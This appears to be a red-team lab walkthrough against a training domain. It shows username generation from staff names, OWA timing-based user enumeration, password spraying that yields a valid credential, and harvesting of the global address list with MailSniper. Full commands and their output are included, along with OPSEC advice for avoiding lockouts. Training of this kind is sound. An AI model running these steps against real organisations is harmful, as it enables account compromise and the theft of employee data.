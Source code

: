 Next, we need to find valid usernames from the list of users enumerated from [https://cyberbotic.io](https://www.cyberbotic.io/).
```
ubuntu@DESKTOP-3BSK7NO ~> cd /mnt/c/Users/Attacker/Desktop/
ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> cat names.txt
Bob Farmer
Isabel Yates
John King
Joyce Adams
```
  

[namemash.py](https://gist.github.com/superkojiman/11076951) is a python script that I've used for as long as I can remember. It will take a person's full name and transform it into possible username permutations.
```
ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> ~/namemash.py names.txt > possible.txt
ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> head -n 5 possible.txt
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```
  We could potentially skip this step if we knew the email address format from somewhere like hunter.io.

`Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.
```
PS C:\Users\Attacker> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
Determining baseline response time...
Response Time (MS)       Domain\Username
763                      cyberbotic.io\OkAJfr
738                      cyberbotic.io\UGVuQv
750                      cyberbotic.io\ztHyFf
749                      cyberbotic.io\dsLWDY
762                      cyberbotic.io\YgFBIP

         Baseline Response: 752.4

Threshold: 460.44
Response Time (MS)       Domain\Username
[*] Potentially Valid! User:cyberbotic.io\bfarmer
[*] Potentially Valid! User:cyberbotic.io\iyates
[*] Potentially Valid! User:cyberbotic.io\jking
[*] A total of 3 potentially valid usernames found.
Results have been written to .\Desktop\valid.txt.
```
  

MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).
```
PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
[*] Now spraying the OWA portal at https://mail.cyberbotic.io/owa/
[*] SUCCESS! User:cyberbotic.io\iyates Password:Summer2022
[*] A total of 1 credentials were obtained.
```
  

  **OPSEC**  
  
#### In the real world, be aware that these authentication attempts may count towards the domain lockout policy for the users.  Too many attempts in a short space of time are not only loud but may also lock accounts out.

We can do further actions using MailSniper with valid credentials, such as downloading the global address list.
```
PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
[*] First trying to log directly into OWA to enumerate the Global Address List using FindPeople...
[*] This method requires PowerShell Version 3.0
[*] Using https://mail.cyberbotic.io/owa/auth.owa
[*] Logging into OWA...
[*] OWA Login appears to be successful.
[*] Retrieving OWA Canary...
[*] Successfully retrieved the X-OWA-CANARY cookie: inZQ6n60_UyNcY3V8sVYr1DImQcoetoIYpwY8yzSQWjVvGL9UusKPBKv5I4Og1zqe18vsxnG_sg.
[*] Retrieving AddressListId from GetPeopleFilters URL.
[*] Global Address List Id of b4477ba8-52b0-48bf-915e-d179db98788b was found.
[*] Now utilizing FindPeople to retrieve Global Address List
[*] Now cleaning up the list...
bfarmer@cyberbotic.io
iyates@cyberbotic.io
jking@cyberbotic.io
nglover@cyberbotic.io
nlamb@cyberbotic.io
[*] A total of 5 email addresses were retrieved
[*] Email addresses have been written to .\Desktop\gal.txt
```
  

If there are names here that we didn't find during initial recon, we can go back and do another round of spraying against them.